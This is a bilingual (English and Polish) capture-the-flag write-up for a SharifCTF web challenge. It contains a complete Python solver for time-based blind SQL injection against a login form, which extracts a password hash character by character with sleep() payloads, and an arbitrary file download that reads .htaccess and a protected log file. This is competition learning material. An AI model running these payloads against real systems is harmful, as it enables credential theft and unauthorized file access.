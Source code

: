 ﻿## HackMe (Web, 400p)

> Hack me, please

###ENG
[PL](#pl-version)

We enter site that authors of challenge had given to us:

![screen1.png](screen1.png)

We quickly find SQLi inside username field.

After CTF, while reading writeups from other teams, we learned that it was possible to get results into formatted table directly (so no blind SQLi).
But we didn't manege to exploit it so we did something more *fun* and *massively overcomplicated* - timing attack.

Our solver, checking each character and sleeping few seconds in case of match:

```python
import requests
import datetime

url = 'http://ctf.sharif.edu:35455/chal/hackme/6bfd0c2a2e01cf06/login.php'

last_token = 'd917611f76268fe2ede99beea2b3c768'

def request(query):
    global last_token
    exploit = "kot' + ({}) + 'kot".format(query)
    r = requests.post(url, data={
        'Login': 'Login',
        'username': exploit,
        'user_token': last_token,
        'password': 'kot',
    }, cookies={
        'PHPSESSID': 'xxx',
        'SUCTF_SESSION_ID': 'xxx',
        'TEST': 'xxx'
    })
    
    resp = r.text
    magic = "<input type='hidden' name='user_token' value='"
    startndx = resp.find(magic)+len(magic)
    last_token = resp[startndx:startndx+len(last_token)]

    if 'CSRF token is incorrect' in resp:
        print 'csrf fail, retrying'
        return request(query)
    else:
        return 'User Name or Password incorrect' in resp

# not reliable enough
def timing_attack(ndx, table, column):
    start = datetime.datetime.utcnow()   
    factor = 2
    base = 32
    res = request("select sleep((ord(substring({4}, {1})) - {2})/{0}) from {3}".format(factor, ndx+1, base, table, column))
    if not res:
        print 'something failed'
        return None
    else:
        end = datetime.datetime.utcnow()
        diff = (end - start).total_seconds()
        c = int(round(diff * factor + base))
        print table, column, ndx, diff, c, chr(c)
        return chr(c)

def timing_attack2(ndx, table, column):
    i = 0
    for c in 'abcdef0123456789':
        start = datetime.datetime.utcnow()
        res = request("select sleep(case when substring({2}, {0}, 1) = '{3}' then 5 else 0 end) from {1}".format(ndx+1, table, column, c))
        if not res:
            print 'something failed'
            return None
        else:
            end = datetime.datetime.utcnow()
            diff = (end - start).total_seconds()
            if diff > 5:
                print
                print table, column, ndx, c, diff
                return c

request("select 'warmup'")

for i in range(32):
    timing_attack2(i, 'user', 'password')
```

We managed to extract username and password from database that way - 26a340b11385ebc2db3b462ec2fdfda4.
Password is hash from `catchme8`.

We were really disapointed when it turned out that this was only first step in this challenge:

![](screen2.jpg)

Most interesting thing here is "help.pdf" link in menu:

    http://ctf.sharif.edu:35455/chal/hackme/6bfd0c2a2e01cf06/file.php?page=aGVscC5wZGY

Page parameter is equal to "help.pdf".encode("base64").

So first think we did was to change this parameter - and yeah, we can download any file from website we want to.

We used this to download index.php, ping.php and any file we could. Sadly, we couldn't find vulnerability in any of them (we did, for a long time).

But then we decided to download .htaccess file:

    <Files "sensitive_log_881027.txt">
    Order Allow,Deny
    Deny from all
    </Files>

And yes, sensitive_log_881027.txt could be downloaded with this exploit and was really interesting:

    SharifCTF{fad0e0d4e40493a82a52e5c8e1738b87}

###PL version

Wchodzimy na stronę podaną przez autorów zadania:

![screen1.png](screen1.png)

Szybko znajdujemy na niej SQLi w polu na nazwę użytkownika.

Czytając writeupy innych drużyn dowiadujemy się, że przy odpowiedniej ilosci kolumn dostajemy pięknie wyniki w postaci tabeli.
Niestety, my tego nie zauważyliśmy i napisaliśmy *bardzo* przekomplikowany solver, używając timing-attacku. Cóż, przynajmniej było ciekawiej.

Nasz solver, który sprawdzał po kolei każdy znak hasła:

```python
import requests
import datetime

url = 'http://ctf.sharif.edu:35455/chal/hackme/6bfd0c2a2e01cf06/login.php'

last_token = 'd917611f76268fe2ede99beea2b3c768'

def request(query):
    global last_token
    exploit = "kot' + ({}) + 'kot".format(query)
    r = requests.post(url, data={
        'Login': 'Login',
        'username': exploit,
        'user_token': last_token,
        'password': 'kot',
    }, cookies={
        'PHPSESSID': 'xxx',
        'SUCTF_SESSION_ID': 'xxx',
        'TEST': 'xxx'
    })
    
    resp = r.text
    magic = "<input type='hidden' name='user_token' value='"
    startndx = resp.find(magic)+len(magic)
    last_token = resp[startndx:startndx+len(last_token)]

    if 'CSRF token is incorrect' in resp:
        print 'csrf fail, retrying'
        return request(query)
    else:
        return 'User Name or Password incorrect' in resp

# not precise enough
def timing_attack(ndx, table, column):
    start = datetime.datetime.utcnow()   
    factor = 2
    base = 32
    res = request("select sleep((ord(substring({4}, {1})) - {2})/{0}) from {3}".format(factor, ndx+1, base, table, column))
    if not res:
        print 'something failed'
        return None
    else:
        end = datetime.datetime.utcnow()
        diff = (end - start).total_seconds()
        c = int(round(diff * factor + base))
        print table, column, ndx, diff, c, chr(c)
        return chr(c)

def timing_attack2(ndx, table, column):
    i = 0
    for c in 'abcdef0123456789':
        start = datetime.datetime.utcnow()
        res = request("select sleep(case when substring({2}, {0}, 1) = '{3}' then 5 else 0 end) from {1}".format(ndx+1, table, column, c))
        if not res:
            print 'something failed'
            return None
        else:
            end = datetime.datetime.utcnow()
            diff = (end - start).total_seconds()
            if diff > 5:
                print
                print table, column, ndx, c, diff
                return c

request("select 'warmup'")

for i in range(32):
    timing_attack2(i, 'user', 'password')
```

Dostajemy w ten sposób nazwę użytkownika (wcześniej) - admin, oraz jego hasło - 26a340b11385ebc2db3b462ec2fdfda4.
Hasło jest hashem ze słowa `catchme8`.

Bardzo się zawiedliśmy, kiedy okazało się ze to dopiero pierwszy krok zadania:

![](screen2.jpg)

Zwracamy jednak uwagę na link "help.pdf" w menu:

    http://ctf.sharif.edu:35455/chal/hackme/6bfd0c2a2e01cf06/file.php?page=aGVscC5wZGY

Wartość parametru "page" jest równa "help.pdf".encode('base64')

Pierwsze co sprawdzamy to podmiana tego parametru i faktycznie - możemy pobrać dowolny plik ze strony.

Wykorzystujemy to do pobrania plików "index.php", "ping.php" i wszystkich innych - okazuje sie że żaden z nich nie jest interesujący (długo szukaliśmy w nich vulna, okazało się to być fałszywym tropem).

Ale .htaccess okazał się ciekawszy:

    <Files "sensitive_log_881027.txt">
    Order Allow,Deny
    Deny from all
    </Files>

I faktycznie, wystarczyło pobrać ten plik aby dostać flagę:

    SharifCTF{fad0e0d4e40493a82a52e5c8e1738b87}

